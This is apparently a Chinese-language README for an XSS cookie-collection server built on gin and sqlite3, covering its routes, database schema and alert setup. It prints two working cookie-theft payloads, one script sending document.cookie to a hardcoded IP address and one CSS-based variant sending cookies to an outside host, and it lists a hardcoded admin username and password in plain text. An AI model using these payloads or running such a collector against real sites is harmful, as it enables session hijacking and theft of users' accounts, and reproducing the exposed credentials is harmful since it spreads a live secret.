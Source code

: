 ## 功能

* 接收XSS传递信息     		【GET】
* 支持扩展js利用      		【身份信息查询】
* 支持JSONP跨域和劫持  	【身份信息查询】


## 逻辑

* 新建一个项目
* 编辑js文件
* 配置接收（邮件微信等等）
* 开始监听

## 构架

* gin + sqlite3
* 支持docker 


```
admin   //后台静态资源 - html
log     //存储web日志
static  //后台静态资源 - css js 
view    //存储路由信息
db      //操作数据库存储与操作
```




### 路由

```
login    登陆
index    后台管理界面
api      接口界面，用于接收数据
```



### 技术

XSS接收cookie的payload

```
<script>
    new Image().src =
        "http://124.70.82.229:8881/api?cookie="+encodeURI(document.cookie);
</script>
```

通过CSS执行js窃取cookie

```
<style>
.getcookies{
    background-image:url('javascript:new Image().src="http://jehiah.com/_sandbox/log.cgi?c=" + encodeURI(document.cookie);');
}
</style>
<p class="getcookies"></p>
```

### 数据库创建

新建数据库
```
sqlite3 xssGo.db
```
写入表，列名字

```
# id 类型 传递内容 传递IP
create table xss_info(id integer not null primary key, leixing text,cookie text,time text,ip text);
```

### 账号密码

暂时不支持多用户，账号密码代码修改

```
账号： polarnightsec
密码： jljcxy@XSSpayload
```


## 参考学习

* https://github.com/keyus/xss
* https://github.com/timwhitez/Doge-XSS-Phishing/blob/master/test.js











